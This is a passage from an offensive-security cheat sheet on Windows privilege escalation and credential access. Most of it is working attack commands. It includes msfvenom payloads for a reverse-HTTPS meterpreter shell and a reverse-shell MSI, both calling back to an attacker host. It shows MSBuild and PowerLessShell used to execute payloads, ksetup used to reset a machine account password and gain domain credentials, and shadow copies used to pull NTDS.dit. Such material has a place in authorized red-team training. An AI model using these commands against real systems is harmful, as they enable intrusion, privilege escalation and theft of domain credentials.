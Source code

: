 ```csharp
msfvenom -p windows/meterpreter/reverse_winhttps LHOST=AttackBox_IP LPORT=4443 -f psh-reflection > liv0ff.ps1 # generate PS payload
msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set lhost AttackBox_IP;set lport 4443;exploit"
python2 PowerLessShell.py -type powershell -source /tmp/liv0ff.ps1 -output liv0ff.csproj
c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\Users\thm\Desktop\liv0ff.csproj

# CHANGE MACHINE/COMPUTER PASSWORD
Are you the local admin of a domain host but you don't want to dump its LSA secrets to read the machine account hash? You can change its password to whatever you want:
ksetup /setcomputerpassword <abcd>
The password gets set after a reboot, and now you have valid domain credentials without relying on password dumping techniques. The old password will keep working, at least until another password change. Also, notice how the password in the screenshot doesn't meet complexity requirements but is still accepted: machine account and trust passwords aren't subjected to complexity rules.
https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/ksetup-setcomputerpassword
```
{% endcode %}

## AlwaysInstalledElevated

**AlwaysInstallElevated** registry set to **1**. This means the installer uses elevated privileges which means MSI packages using SYSTEM level permissions

{% code overflow="wrap" %}
```bash
# Query the registry for AlwaysInstallElevated keys:
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
# We need any of the keys set to 1 (0x1).
# On Kali, generate a reverse shell Windows Installer (reverse.msi):
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi
# Upload the file, start a listener on Kali and run the installer:
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```
{% endcode %}

## Privileged File Writes to RCE

[https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#eop-privileged-file-write](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#eop-privileged-file-write)

## Shadow Copies

As domain admins, we can abuse the vshadow utility to create a Shadow Copy that will allow us to extract the Active Directory Database [**NTDS.dit**](https://technet.microsoft.com/en-us/library/cc961761.aspx) database file. Once we've obtained a copy of the database, we need the SYSTEM hive, and then we can extract every user credential offline on our local Kali machine.
